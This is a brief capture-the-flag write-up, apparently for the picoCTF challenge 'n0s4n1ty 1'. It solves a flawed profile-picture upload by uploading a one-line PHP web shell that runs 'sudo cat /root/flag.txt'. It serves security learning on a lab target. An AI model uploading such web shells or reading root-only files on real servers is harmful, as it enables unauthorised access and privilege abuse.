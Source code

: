 # n0s4n1ty 1

[Challenge](https://play.picoctf.org/practice/challenge/482?category=1&originalEvent=74&page=1)

Author: Prince Niyonshuti N.

Description

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.

Additional details will be available after launching your challenge instance.

---

<img width="1104" alt="Screenshot 2025-05-03 at 3 51 50 PM" src="https://github.com/user-attachments/assets/4316b3b9-4189-436e-b6f9-4d72b4d54ce2" />

There's some file upload thing........

<img width="1039" alt="Screenshot 2025-05-03 at 3 52 03 PM" src="https://github.com/user-attachments/assets/1f62d0cd-eebf-4733-ad53-3d7fdf3a4965" />

It takes .php file.

so we know flag is located at /root.

```<?php echo exec("sudo cat /root/flag.txt");?>``` save this as shell.php and upload it.

<img width="1023" alt="Screenshot 2025-05-03 at 3 54 57 PM" src="https://github.com/user-attachments/assets/85296d4a-c38e-469a-a407-49926e3e8ce2" />

---

<img width="1043" alt="Screenshot 2025-05-03 at 3 55 10 PM" src="https://github.com/user-attachments/assets/bd605c9d-5f5c-4cd5-a3f2-f8c62dc10ddd" />


---
